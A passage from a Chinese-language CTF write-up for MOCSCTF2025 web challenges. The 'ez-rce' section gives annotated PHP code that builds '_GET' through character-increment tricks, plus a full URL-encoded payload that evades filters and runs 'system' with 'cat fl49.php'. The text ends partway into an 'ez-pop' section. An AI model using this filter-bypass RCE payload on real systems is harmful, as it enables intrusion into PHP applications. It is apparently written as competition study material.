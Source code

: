 # Mocsctf2025 Wp


## 前言

澳门的一个比赛，奖品比较好，就冲了xd，复盘一下，后面会补题

## web

### shuke-beita

这个真的是签到了xd，f12进去可以看见一行`(document.body.innerHTML = "请关闭开发者工具以继续使用本网站")`，我们比较叛逆，直接打开，然后运行游戏抓个包，f12里面就看见flag了，无敌了

### ez-rce

不算特别难，抓包得到`<!-- /s3cret/rce.php -->`，进去尝试rce即可，过滤了很多东西，打自增绕过，详细分析看[这个](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)

字符更少的版本
```
$_=[].'_'; //空数组拼接一个字符，会将空数组变成字符串Array
$__=$_[1];//$__是r
$_=$_[0];//$_这时是A
$_++;//$_这时是B，每++一次就是下一个字母
$_++;//C
$_0=$_;//把c给$_0
$_++;//D
$_++;//E
$_++;//F
$_++;//G
$_=$_0.++$_.$__;//$_=CHr
$_='_'.$_(71).$_(69).$_(84);//$_='_'.CHR(71).CHR(69).CHR(84) -> $_=_GET
//$$_[1]($$_[2]);//$_GET[1]($_GET[2])
echo $_;
#_GET
```

完整paylaod

```
/s3cret/rce.php?MOCSCTF2025=%24_%3D%5B%5D.''%3B%24_%3D%24_%5B''%3D%3D'%24'%5D%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24__%3D%24_%3B%24_%2B%2B%3B%24_%2B%2B%3B%24___%3D%24_%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%3D%24___.%24__.%24_%3B%24_%3D'_'.%24_%3B%24%24_%5B_%5D(%24%24_%5B__%5D)%3B&_=system&__=cat%20fl49.php
```


### ez-pop

感觉这个更简单一些，`composer.json`可以找到`"guzzlehttp/guzzle": "^7.9"`，这里直接查询
